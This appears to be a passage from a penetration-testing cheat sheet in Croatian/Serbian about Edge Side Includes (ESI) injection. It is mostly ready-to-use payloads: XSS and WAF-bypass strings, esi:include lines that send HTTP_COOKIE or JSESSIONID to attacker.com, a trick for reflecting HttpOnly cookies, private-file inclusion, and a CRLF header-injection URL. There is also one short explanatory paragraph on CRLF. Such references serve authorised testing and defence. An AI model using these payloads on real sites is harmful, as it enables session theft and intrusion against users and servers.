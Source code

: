 ```xml
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>

Use <!--esi--> to bypass WAFs:
<scr<!--esi-->ipt>aler<!--esi-->t(1)</sc<!--esi-->ript>
<img+src=x+on<!--esi-->error=ale<!--esi-->rt(1)>
```

#### Krađa kolačića

* Udaljena krađa kolačića

```xml
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
<esi:include src="http://attacker.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```

* Ukradi kolačić HTTP\_ONLY pomoću XSS-a reflektirajući ga u odgovoru:

```bash
# This will reflect the cookies in the response
<!--esi $(HTTP_COOKIE) -->
# Reflect XSS (you can put '"><svg/onload=prompt(1)>' URL encoded and the URL encode eveyrhitng to send it in the HTTP request)
<!--esi/$url_decode('"><svg/onload=prompt(1)>')/-->

# It's possible to put more complex JS code to steal cookies or perform actions
```

#### Privatna lokalna datoteka

Nemojte mešati ovo sa "Uključivanjem lokalne datoteke":

```markup
<esi:include src="secret.txt">
```

#### CRLF

CRLF (Carriage Return Line Feed) predstavlja specifičan karakterni niz koji se koristi za označavanje kraja reda u tekstualnim datotekama. Sastoji se od kombinacije karaktera "Carriage Return" (CR) i "Line Feed" (LF). CR karakter označava povratak kursora na početak reda, dok LF karakter označava prelazak na sledeći red.

CRLF se često koristi u HTTP protokolu za označavanje kraja zaglavlja HTTP zahteva ili odgovora. Međutim, zlonamerni korisnici mogu iskoristiti CRLF ranjivosti kako bi izvršili različite vrste napada, kao što su HTTP Response Splitting i Server-Side Request Forgery (SSRF).

Napadač može ubaciti CRLF karaktere u HTTP zahtev kako bi izazvao neželjene efekte, kao što su ubacivanje dodatnih zaglavlja ili preusmeravanje korisnika na zlonamerni sajt. Ovi napadi mogu dovesti do krađe podataka, preuzimanja kontrolu nad serverom ili izvršavanja proizvoljnog koda.

Da biste se zaštitili od CRLF injekcija, preporučuje se sanitizacija i validacija svih korisničkih unosa koji se koriste u HTTP zahtevima. Takođe je važno ažurirati sve softverske komponente koje obrađuju HTTP zahteve kako bi se ispravile poznate ranjivosti.

```markup
<esi:include src="http://anything.com%0d%0aX-Forwarded-For:%20127.0.0.1%0d%0aJunkHeader:%20JunkValue/"/>
```
